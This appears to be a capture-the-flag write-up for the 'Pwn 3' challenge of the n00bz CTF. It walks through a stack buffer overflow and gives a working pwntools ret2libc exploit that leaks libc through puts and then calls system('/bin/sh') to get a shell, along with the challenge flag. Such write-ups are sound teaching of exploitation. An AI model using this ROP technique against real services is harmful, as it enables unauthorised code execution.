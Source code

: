 # **Pwn 3**
Textbook buffer overflow *without* win function

*NOTE : I solved this in pretty much the EXACT same way as pwn2*

# Executable
checksec :
```
[*] '/home/skuuk/n00bz/pwn3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
decompilation :
```C
void main(EVP_PKEY_CTX *param_1)

{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_28,0x50,stdin);
  puts("n00bz{f4k3_fl4g}");
  return;
}
```
no canary, the only local on the stack is the buffer `local_28` itself so the returned address is at offset `32 + 8 = 40` 
(counting 8 bytes for the saved `rbp`)
# Exploit

The exploit is in 2 phases :
- first we leak the address of libc by returning to puts (via the plt) with the got entry of puts as argument (which contains the adress of puts in libc since puts has been called previously) then return to `main`
- second we return to system with the address of `/bin/sh\x00` as argument to spawn a shell

*Returning to main allows us use the buffer overflow a second time*
```python
io = start()

# gadgets in the executable
pop_rdi = 0x401232
ret = 0x40101a

# leak libc base + return to main
rop1 = p64(pop_rdi)
rop1 += p64(exe.got['puts'])
rop1 += p64(exe.plt['puts'])
rop1 += p64(exe.symbols['main'])
io.sendline(b'a'*40 + rop1)
io.recvuntil('}\n')
libc = exe.libc
libc.address = int.from_bytes(io.recvline()[:-1],'little') - libc.symbols['puts']
print(f"libc : 0x{libc.address:x}")

# return to system
rop2 = p64(pop_rdi)
rop2 += p64(next(libc.search(b'/bin/sh\x00')))
rop2 += p64(ret)
rop2 += p64(libc.symbols['system'])
io.sendline(b'a'*40 + rop2)

io.sendline("cat flag.txt")

io.interactive()
```

# Flag
```
n00bz{1f_y0u_h4ve_n0th1ng_y0u_h4ve_l1bc}
```
